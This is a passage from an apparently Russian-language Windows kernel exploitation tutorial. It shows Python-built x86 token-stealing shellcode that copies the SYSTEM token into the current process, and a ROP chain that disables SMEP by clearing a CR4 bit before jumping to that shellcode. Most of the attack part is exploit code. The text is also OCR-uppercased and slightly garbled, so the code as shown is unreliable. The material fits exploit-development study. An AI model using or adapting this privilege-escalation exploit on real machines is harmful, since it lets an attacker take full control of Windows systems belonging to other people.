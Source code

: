 ```python
SHELLCODE += "\X8B\X98\XFC\X00\X00\X00" # MOV EBX, [EAX + TOKEN_OFFSET]

# --[ COPY SYSTEM PID TOKEN]
SHELLCODE += "\XBA\X04\X00\X00\X00" # MOV EDX, 4 (SYSTEM PID)
SHELLCODE += "\X8B\X80\XB8\X00\X00\X00" # MOV EAX, [EAX + FLINK_OFFSET]
SHELLCODE += "\X2D\XB8\X00\X00\X00" # SUB EAX, FLINK_OFFSET
SHELLCODE += "\X39\X90\XB4\X00\X00\X00" # CMP [EAX + PID_OFFSET], EDX
SHELLCODE += "\X75\XED" # JNZ

# WIN 10 RS2 X86 TOKEN_OFFSET = 0XFC
# WIN 07 SP1 X86 TOKEN_OFFSET = 0XF8
SHELLCODE += "\X8B\X90\XFC\X00\X00\X00" # MOV EDX, [EAX + TOKEN_OFFSET]
SHELLCODE += "\X89\X91\XFC\X00\X00\X00" # MOV [ECX + TOKEN_OFFSET], EDX

# --[ RECOVER]
SHELLCODE += "\X61" # POPAD
SHELLCODE += "\X31\XC0" # RETURN NTSTATUS = STATUS_SUCCESS
SHELLCODE += "\XC2\X08" # RET
```

Давайте попробуем это.

![](.gitbook/assets/62/55.png)

Куда программа достигнет этой точки, будет ли она работать дальше? Нет.

Весьма вероятно, что дело в **POP EBP** когда не происходит переполнения.

![](.gitbook/assets/62/56.png)

Эта инструкция удаляет со стека значение.

![](.gitbook/assets/62/57.png)

**ESP** устанавливается в это значение.

Я поменяю здесь только **RETN**, а не **RETN**, поэтому происходит возврат и тогда я могу добавить **EBP** в свой шеллкод.

```python
INPUT = STRUCT.PACK("<I", NT + 0X519770) * 2 # RET
INPUT += STRUCT.PACK("<I", NT + 0X11FC10) # MOV EAX, CR4 - RET
INPUT += STRUCT.PACK("<I", NT + 0X51976F) # POP ECX; RET
INPUT += STRUCT.PACK("<I", 0XFFEFFFFF) # TO DISABLE SMEP
INPUT += STRUCT.PACK("<I", NT + 0X50095C) # AND EAX,ECX; RET
INPUT += STRUCT.PACK("<I", NT + 0X11FC1E) # MOV **CR4,EAX; RET**
INPUT += STRUCT.PACK("<I", INT(BUF)) # A SHELLCODE
```

И в начале моего шеллкода я помещаю **POP EBP** , чтобы вернуть значение из стека перед вызовом **PUSHAD**.

Теперь, если уже всё работает отлично, я запускаю блокнот, потому что **MICROSOFT** в **WINDOWS 10** иногда ограничивает использование калькулятора.
